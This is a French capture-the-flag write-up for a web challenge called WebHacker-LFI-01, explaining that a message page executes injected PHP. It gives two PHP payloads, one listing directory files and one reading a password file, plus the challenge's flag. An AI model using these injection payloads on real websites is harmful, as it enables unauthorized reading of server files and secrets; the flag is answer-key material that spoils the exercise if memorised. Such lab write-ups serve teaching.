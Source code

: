 # Titre : WebHacker-LFI-01

# Catégorie : WEB

## Équipe : WEB

## Personnes : Christophe G-A, Marius V

## Description - Énoncé :

La légende raconte qu'un espace de type sandbox serait présent.

# Solution :

On arrive sur une page permettant d’afficher des messages mais en réalité elle permet l'exécution de code notamment de php (bloque les balises script et l'exécution de commandes serveur)
ici l’objectif est de lister les fichiers du dossier courant et d’afficher le contenu de password.php et ce avec des commandes php, il suffit de rentrer celles ci :
<?php echo join("\\n", array_diff(scandir('.'), ['.', '..'])); ?>
puis
<?php echo file_get_contents("password.txt"); ?>

et ce tout en les affichant via un echo

# URL de connexion : ...../vr06/

# flag : WpUrGood

# Docker (Merci de commenter votre Dockerfile):

- [x] oui :
  - Explication du fonctionnement du docker : "docker-compose"
- [ ] non